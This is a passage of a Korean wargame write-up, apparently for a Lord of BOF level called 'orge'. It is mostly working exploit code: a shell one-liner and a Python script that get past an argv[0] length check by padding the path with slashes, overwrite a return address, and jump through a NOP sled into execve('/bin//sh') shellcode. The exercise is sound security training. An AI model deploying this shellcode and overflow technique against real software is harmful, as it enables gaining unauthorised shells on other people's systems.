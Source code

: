 ```
/home/darkelf////////////////////////////////////////////////////////////orge `python -c 'print "A"*44+"\x64\xfb\xff\xbf"'` `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

### 0x03. 정리

argv[0]의 길이를 체크하는 메커니즘이 들어 갔으며, 쉘기능을 사용하여 argv[0] 길이 체크 메커니즘을 우회하였다.

-----

```python
import os
import struct

append = lambda x, y: x + y
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkelf/" + "/"*59 + "orge"
print len(target)

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
shellcode_addr = 0xbffffd20

payload1 = "\x90"*44
payload1 = append(payload1, p32(shellcode_addr))

payload2 = "\x90"*50
payload2 = append(payload2, shellcode)

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload1, payload2))
else:
        os.waitpid(pid, 0)
```

> python script로 할 때는 주소가 다를 수 있음

-----

